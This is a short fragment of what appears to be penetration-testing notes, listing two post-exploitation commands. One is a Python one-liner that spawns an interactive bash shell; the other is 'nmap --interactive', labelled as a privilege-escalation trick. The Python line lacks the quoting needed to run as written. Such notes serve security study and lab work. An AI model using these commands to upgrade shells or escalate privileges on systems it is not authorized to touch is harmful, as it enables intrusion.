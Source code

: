 - Spawn interactive shell: 
```vim
python -c import pty;pty.spawn("/bin/bash")
```

- Privilege escalation with nmap :  
```vim
nmap --interactive
```